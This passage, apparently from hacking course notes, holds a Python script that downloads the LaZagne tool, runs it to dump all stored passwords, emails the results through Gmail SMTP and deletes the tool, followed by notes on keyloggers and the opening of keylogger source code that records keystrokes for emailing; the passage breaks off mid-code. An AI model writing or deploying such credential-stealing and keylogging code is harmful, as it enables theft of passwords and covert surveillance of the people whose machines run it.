 ```
#!/usr/bin/env python

# download_execute_report.py

import requests, smtplib, subprocess, os, tempfile

def download(url):
	response = requests.get(url)
	print(response)
	print(response.content)
	file_name = url.split("/")[-1]
	with open(file_name, "wb") as out_file:
		out_file.write(response.content)
		
def send_mail(email, password, message):
	server = smtplib.SMTP("smtp.gmail.com", 587)
	server.starttls()
	server.login(email, password)
	server.sendmail(email, email, message)
	server.quit()		

temp_dir = tempfile.gettempdir()
os.chdir(temp_dir)
download("lazagne.exe")
command = "laZagne.exe all"
result = subprocess.check_output(command, shell=True)
send_mail("abc@gmail.com", "abcabc", result)
os.remove("laZagne.exe")
```

### 13.2 Keylogger

- Keylogger is a program that records keys pressed on the keyboard.
- It can store logs locally or send them to a remote server.
- `pip install pynput`
- `killall python`: to stop the program
- `type file.txt`: read file in Windows CMD

#### Code

```
#!/usr/bin/env python

# keylogger_1.py

import pynput.keyboard as pk
import threading
import smtplib

class Keylogger:
	def __init__(self, time_interval, email, password):
		self.log = "*** KEYLOGGER STARTED ***"
		self.interval = time_interval
		self.email = email
		self.password = password
		
	def update_log(self, string):
		self.log += string
	
	def process_key_press(self, key):
		try:
			current_key = str(key.char)
		except:
			if key == key.space:
```